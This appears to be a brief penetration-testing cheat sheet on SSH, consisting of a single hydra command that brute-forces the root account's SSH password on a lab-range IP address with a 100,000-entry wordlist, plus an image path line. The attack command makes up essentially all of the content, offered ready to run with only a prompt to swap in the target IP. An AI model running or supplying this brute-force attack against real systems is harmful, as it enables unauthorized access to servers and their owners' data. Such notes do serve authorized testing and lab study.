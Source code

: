 # SSH Penetration Testing

## Brute forcing SSH
```
# Brute force SSH, replace 10.11.1.140 with target ip
hydra -e nsr -l root -P /root/Desktop/wordlists/10_million_password_list_top_100000.txt 10.11.1.140 ssh -t 4
```
